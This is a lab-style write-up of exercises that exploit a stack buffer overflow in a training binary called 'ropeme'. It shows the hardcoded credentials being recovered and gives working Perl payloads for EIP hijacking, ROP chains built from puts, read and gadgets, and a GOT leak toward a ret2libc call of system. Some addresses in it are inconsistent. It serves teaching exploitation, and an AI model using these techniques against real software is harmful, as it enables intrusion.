 ========
Write-up
========

This writeup is made on linux using radare2 tools a lot. You may want to use
another platform or tools but I won't bother supporting them.

Exercise 1
==========

Using `strings ./ropeme` we find a line "admin42". It happens to be the
username.

Exercise 2
==========

You can trace calls to library functions with ltrace. This includes strcmp:

::

    $ ltrace ./ropeme admin42
    __libc_start_main(0x8048584, 2, 0xffb970e4, 0x80485e0 <unfinished ...>
    strcmp("admin42", "admin42")                                         = 0
    puts("Enter password:"Enter password:
    )                                              = 16
    fflush(0xf7759d60)                                                   = 0
    read(0test
    , "test\n", 512)                                               = 5
    strcmp("test\n", "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227") = -1
    puts("Wrong password"Wrong password
    )                                               = 15
    +++ exited (status 1) +++


The password is "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227". To
see it without the octal notation one can use printf:

::

    $ printf "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227"
    ĳùð−÷<>[×


That explains why is didn't show up using "strings"!

Exercise 3
==========

Reading ltrace's output we can see that fgets is used to get user input
reading up to 512 chars from stdin. What happens if we really write 512
chars?

::

    $ perl -e 'print "A"x512' | ./ropeme admin42
      Segmentation fault      (core dumped) | ./ropeme admin42

Oh! This smells the buffer overflow! To know where exactly we overwrite the
instruction pointer (eip) I'll use a De Bruijn sequence (I could guess but
this is faster). This is done using radare2 tools.

Here ragg2 will generate a 500-bytes long sequence with no repetitions as
hexadecimal values, rax2 will convert it into ascii values, and we put it in
the clipboard using xclip so that we are able to paste it later.

::

    $ ragg2 -P 500 | rax2 -s - | xclip

Radare2 is then used in debug mode with rarun2 to launch the program with an
argument. We could use gdb but... well... radare2 ^^

::

    $ r2 -d rarun2 program=./ropeme arg1=admin42
        ...
     [0x7f2168f15d80]> dc
     Debugging pid = 4050, tid = 1 now
     [0xf7778b50]> dc
     Enter password:
     <paste here from clipboard>
     Wrong password
     [+] SIGNAL 11 errno=0 addr=0x41416641 code=1 ret=0
     [+] signal 11 aka SIGSEGV received 0
     [0x41416641]> woO 0x41416641
     92

Here we have the address at which it tried to return: 0x41416641
Still in radare2 we convert it into an offset to know how much padding we
need:

::

    [0x41416641]> woO 0x41416641
    92

Let's try that!

::

    $ perl -e 'print "A"x92 . "B"x4' | xclip
    $ r2 -c "dc;dc" -d rarun2 program=ropeme arg1=admin42
        ...
    Enter password:
    <paste>
    Wrong password
    [+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
    [+] signal 11 aka SIGSEGV received 0
     -- Fill the bug. Fill it with love. With the creamy and hot sauce of love.
    [0x42424242]>

It works! We have taken eip! We just have to redirect it to section printing
the winning message. Let's disassemble the function checking the password:

::

    $ r2 ropeme
    [0x080483b0]> aa
    [0x080483b0]> is | grep password
    vaddr=0x080484e6 paddr=0x000004e6 ord=069 fwd=NONE sz=158 bind=GLOBAL type=FUNC name=check_password
    [0x080484e6]> pdf @ sym.check_password
    ╒ (fcn) sym.check_password 158
    │
    │
    │           0x080484e6    55             push ebp
    │           0x080484e7    89e5           mov ebp, esp
    │           0x080484e9    83ec58         sub esp, 0x58
    │           0x080484ec    83ec0c         sub esp, 0xc
    │           0x080484ef    6877860408     push str.Enter_password:
    │           0x080484f4    e887feffff     call sym.imp.puts
    │             ^- sym.imp.puts(unk)
    │           0x080484f9    83c410         add esp, 0x10
    │           0x080484fc    a150990408     mov eax, dword [obj.stdout__GLIBC_2.0]
    │           0x08048501    83ec0c         sub esp, 0xc
    │           0x08048504    50             push eax
    │           0x08048505    e866feffff     call sym.imp.fflush
    │             ^- sym.imp.fflush(unk)
    │           0x0804850a    83c410         add esp, 0x10
    │           0x0804850d    83ec04         sub esp, 4
    │           0x08048510    6800020000     push 0x200
    │           0x08048515    8d45a8         lea eax, [ebp-local_22]
    │           0x08048518    50             push eax
    │           0x08048519    6a00           push 0
    │           0x0804851b    e840feffff     call sym.imp.read
    │             ^- sym.imp.read(unk, unk, unk)
    │           0x08048520    83c410         add esp, 0x10
    │           0x08048523    85c0           test eax, eax
    │       ┌─< 0x08048525    7517           jne 0x804853e
    │       │   0x08048527    83ec0c         sub esp, 0xc
    │       │   0x0804852a    6887860408     push str.Unable_to_get_the_password
    │       │   0x0804852f    e84cfeffff     call sym.imp.puts
    │       │     ^- sym.imp.puts(unk)
    │       │   0x08048534    83c410         add esp, 0x10
    │       │   0x08048537    b801000000     mov eax, 1
    │      ┌──< 0x0804853c    eb44           jmp 0x8048582
    │      │└─> 0x0804853e    83ec08         sub esp, 8
    │      │    0x08048541    68a2860408     push str.________________
    │      │    0x08048546    8d45a8         lea eax, [ebp-local_22]
    │      │    0x08048549    50             push eax
    │      │    0x0804854a    e801feffff     call sym.imp.strcmp
    │      │      ^- sym.imp.strcmp(unk, unk)
    │      │    0x0804854f    83c410         add esp, 0x10
    │      │    0x08048552    85c0           test eax, eax
    │     ┌───< 0x08048554    7517           jne 0x804856d
    │     ││    0x08048556    83ec0c         sub esp, 0xc
    │     ││    0x08048559    68b3860408     push str.Yeah__You_win_
    │     ││    0x0804855e    e81dfeffff     call sym.imp.puts
    │     ││      ^- sym.imp.puts(unk)
    │     ││    0x08048563    83c410         add esp, 0x10
    │     ││    0x08048566    b800000000     mov eax, 0
    │    ┌────< 0x0804856b    eb15           jmp 0x8048582
    │    │└───> 0x0804856d    83ec0c         sub esp, 0xc
    │    │ │    0x08048570    68c2860408     push str.Wrong_password
    │    │ │    0x08048575    e806feffff     call sym.imp.puts
    │    │ │      ^- sym.imp.puts(unk)
    │    │ │    0x0804857a    83c410         add esp, 0x10
    │    │ │    0x0804857d    b801000000     mov eax, 1
    │    └─└──> 0x08048582    c9             leave
    ╘           0x08048583    c3             ret


Ok, so given the disassembly the key section is at 0x08048559. Let's try that:

::

    $ perl -e 'print "A"x92 . "\x59\x85\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    Yeah! You win!
    Segmentation fault (core dumped)

Finally!


Exercise 4
==========

When calling another function, the caller (say `main`) pushes the arguments
on the stack (not always, see further) and uses the call opcode that pushes
the current address on the stack for later return and then jumps to the
sub-routine location.

The sub-routine then pushes the ebp address to define its own stack frame,
takes the arguments from the stack to store them in local variables (often
pushing them back or just stocking them in registers), does its thing, then
pops the stack (the ebp address) and returns to the address at the top of the
stack (our previous return address put there by call). The instruction
pointer is incremented and the program continues.

I left away the stack allocation process besides push/pop because it isn't
very relevent here. Also there are other calling conventions besides the
stack. In x86_64, as the registers are bigger and more numerous they are the
primary way to pass arguments.

So the stack look like that before entering puts:

::

    ^ [string address]
    | [return address]

Note that as the stack is decreasing, pushing puts data at the bottom of this
diagram which is the top of the stack (facing downward). Also I represented
it without really using the opcode "call", that's why there is the return
address.

For strcmp it is similar, but note that the arguments are pushed in reverse
order:

::

    ^ [str2   address]
    | [str1   address]
    | [return address]

Exercise 5
==========

To display the password we will hijack a call to puts(). Such a call means
the stack will look somewhat like that before the call:

::

    ^ [password    address]
    | [puts return address]
    | [puts        address]
    | [padding to overflow]

The address of puts is direct:

::

    $ rabin2 -s ropeme | grep puts
    vaddr=0x08048380 paddr=0x00000380 ord=004 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.puts

So [puts address] is 0x08048330. In the same way we find the password address:

::

    $ rabin2 -z ropeme
    ...
    vaddr=0x080486a2 paddr=0x000006a2 ordinal=004 sz=17 len=9 section=.rodata type=ascii string=ĳùð−÷<>[×
    ...

By the way note how rabin2 isn't troubled at all by the weird password.

So far our stack is something like: "80830408XXXXXXXXa2860408". Right now the
return address isn't really important, we will return to the end of the
check_password function, just before the return statement, at address
0x0804857d.

::

    # Stack wanted:
    #
    # ^ [password    address] = 0x080486a2
    # | [puts return address] = 0x0804857d
    # | [puts        address] = 0x08048380
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\xa2\x86\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ĳùð−÷<>[×
    Segmentation fault (core dumped)

Yeah!

Exercise 6
==========

We want to print an arbitrary message. The printing part can be done with
puts() but what about the "getting the message" part? The program provides
read(), and we can make use of it.

The read system call takes as argument a file descriptor, an address to write
to and a length. We will read from stdin (file descriptor 0). Our message
will be a traditional "Hello World!" which is of length 13 with the null
terminator.

So we need to call read, store our string somewhere, and call puts to print
it. The stack will look somewhat like:

::

    ^ [string address]
    | [end    address]
    | [string len    ]
    | [string address]
    | [stdin  fd     ]
    | [puts   address]
    | [read   address]
    | [padding       ]

However, if we do that when returning from write the argument for puts will
be stdin file descriptor! We need to find a way to clean the stack removing
the three arguments of write.

This is done using a gadget, a small but useful sequence of instructions
present at the end of a function. Here we want something to pop three
arguments off the stack. Let's use radare2 to find something like that.

::

    $ r2 ropeme
     -- Do you want to print 333.5K chars? (y/N)
    [0x08048360]> /R pop
        ...

      0x08048538             5b  pop ebx
      0x08048539             5e  pop esi
      0x0804853a             5f  pop edi
      0x0804853b             5d  pop ebp
      0x0804853c             c3  ret

        ...

Better than what we needed! We will only use the last three pops. Returning
to 0x08048539 will clear the stack of its three last elements then return
normally to the next function. I will refer to that address as pppr for
"pop pop pop ret". Our stack now looks like that:

::

    ^ [string address]
    | [end    address] = 0x0804857d
    | [puts   address] = 0x08048380
    | [string len    ] = 0x0000000e
    | [string address]
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x08048539
    | [read   address] = 0x08048360
    | [padding       ] = 'A' x 92

The only thing we lack is an address to write to. We need to find a section
in memory which is more than 14 bytes large and has Read-Write permissions.
We can use radare2 for that:

::

    $ rabin2 -S ropeme | grep "perm=..rw"
    idx=17 vaddr=0x0804982c paddr=0x0000082c sz=4 vsz=4 perm=--rw- name=.init_array
    idx=18 vaddr=0x08049830 paddr=0x00000830 sz=4 vsz=4 perm=--rw- name=.fini_array
    idx=19 vaddr=0x08049834 paddr=0x00000834 sz=4 vsz=4 perm=--rw- name=.jcr
    idx=20 vaddr=0x08049838 paddr=0x00000838 sz=232 vsz=232 perm=--rw- name=.dynamic
    idx=21 vaddr=0x08049920 paddr=0x00000920 sz=4 vsz=4 perm=--rw- name=.got
    idx=22 vaddr=0x08049924 paddr=0x00000924 sz=36 vsz=36 perm=--rw- name=.got.plt
    idx=23 vaddr=0x08049948 paddr=0x00000948 sz=8 vsz=8 perm=--rw- name=.data
    idx=24 vaddr=0x08049950 paddr=0x00000950 sz=8 vsz=8 perm=--rw- name=.bss
    idx=30 vaddr=0x0804982c paddr=0x0000082c sz=292 vsz=4096 perm=m-rw- name=phdr1
    idx=31 vaddr=0x08048000 paddr=0x00000000 sz=52 vsz=52 perm=m-rw- name=ehdr

Most sections are too small... The .dynamic seems large enough to be
interesting though. We'll use it.

::

    ^ [string address] = 0x08049838
    | [end    address] = 0x0804857d
    | [puts   address] = 0x08048380
    | [string len    ] = 0x0000000e
    | [string address] = 0x08049838
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x08048539
    | [read   address] = 0x08048360
    | [padding       ] = 'A' x 92

Let's try that!

::

    $ perl - <<EOF | ./ropeme admin42
    print "A" x 92
    . "\x60\x83\x04\x08"
    . "\x39\x85\x04\x08"
    . "\x00\x00\x00\x00"
    . "\x38\x98\x04\x08"
    . "\x0e\x00\x00\x00"
    . "\x80\x83\x04\x08"
    . "\x7d\x85\x04\x08"
    . "\x38\x98\x04\x08"
    EOF
    Enter password:
    [...]
    Wrong password
    Segmentation fault

Hmm... It didn't work... The reason is that the first call to read (to get
the password) reads 512 bytes from the standard input so it goes in the way
of the other call to read. The solution is to completely fill it and put our
input just after:

::
    ^ [padding       ] = 'B' x 388
    | [string address] = 0x08049838
    | [end    address] = 0x0804857d
    | [puts   address] = 0x08048380
    | [string len    ] = 0x0000000e
    | [string address] = 0x08049838
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x08048539
    | [read   address] = 0x08048360
    | [padding       ] = 'A' x 92

    $ perl - <<EOF | ./ropeme admin42
    print "A" x 92
    . "\x60\x83\x04\x08"
    . "\x39\x85\x04\x08"
    . "\x00\x00\x00\x00"
    . "\x38\x98\x04\x08"
    . "\x0e\x00\x00\x00"
    . "\x80\x83\x04\x08"
    . "\x7d\x85\x04\x08"
    . "\x38\x98\x04\x08"
    . "B" x 388
    . "Hello World!\x00"
    EOF
    Enter password:
    [...]
    Wrong password
    Hello World!
    Segmentation fault

Working! That way we can chain function calls at will!

Exercise 7
==========

As strcmp comes from the libc it is dynamically loaded. That means that the
address of the real strcmp function isn't know at compile time. The jump is
made from the PLT section into the GOT section. To know at which address we
jump we just have to ask radare2:

::

    $ rabin2 -s ropeme | grep strcmp
    vaddr=0x08048350 paddr=0x00000350 ord=001 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.strcmp

So the strcmp address in the PLT is 0x08048310. Where does it jump after that?

::

    $ r2 -q -d -c 'dc;pd 1 @ 0x08048350' rarun2 program=ropeme arg1=admin42
        ...
    0x08048350    ff2530990408   jmp qword [rip + 0x8049930]   ; [0x10091c86:8]=-1

We now know that the jump in the GOT is done at the address 0x8049930 for
strcmp. At this address will be dynamically decided the address of the strcmp
function in the dynamically loaded libc. We can print it using our puts
payload from exercise 5:

::

    # Stack wanted:
    #
    # ^ [strcmp GOT  address] = 0x08049930
    # | [puts return address] = 0x0804857d
    # | [puts        address] = 0x08048380
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ��c�PB]�
    Segmentation fault (core dumped)

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ��g�PBa�
    Segmentation fault (core dumped)

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ��k�PBe�
    Segmentation fault (core dumped)

The first 4 bytes of the oddly displayed line are our address. As you can see
the address changes from one call to the other. Let's use strace to see it
more clearly:

::

    $ perl -e 'print "A"x92 . "\x30\x83\x04\x08\x21\x85\x04\x08\xd0\x98\x04\x08"' |\
      strace -e write ./ropeme admin42
    [ Process PID=26818 runs in 32 bit mode. ]
    write(1, "Enter password:\n", 16Enter password:
    )       = 16
    write(1, "Wrong password\n", 15Wrong password
    )        = 15
    write(1, "\260Pn\367P\362g\367\n", 9�Pn�P�g�
    )   = 9
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault

    $ printf "\260Pn\367" | xxd
    0000000: b050 6ef7                                .Pn.

So our address is 0xf76e50b0 in that instance.

Exercise 8
==========

This address is interesting because the offset between two libc functions
will always be the same so we can compute the offset to between strcmp and
any other function and use it to determine the address of any other function.

We'll start by computing the offset between system and strcmp in the libc.
Here I take advantage of the fact that I know that the libc that is compiled
is the same than the one used by my system, in the real world you may want to
identify the serveur running and download its standard precompiled libc for
example.

::

    $ r2 /lib/libc-2.22.so
    [0x00020730]> is | grep =system
    vaddr=0x0003f890 paddr=0x0003f890 ord=5724 fwd=NONE sz=45 bind=UNKNOWN type=FUNC name=system
    [0x00020730]> is | grep =strcmp
    vaddr=0x0007f650 paddr=0x0007f650 ord=5510 fwd=NONE sz=60 bind=GLOBAL type=LOOS name=strcmp
    [0x00020730]> ? 0x0007f650 - 0x0003f890
    261568 0x3fdc0 0776700 255.4K 3000:0dc0 261568 11000000 261568.0 0.000000f 0.000000

So the offset between strcmp and system is 0x3fdc0.

Of course having it for a paste instance is quite useless, we must now find
a way to use it without quitting the process. There are two strategies:
either we stay within the program and build the address by using ROP gadgets
astuciously, either we consider use the program as a server, have it output
the address, compute the offset outside the process and then have the process
read the new address back.

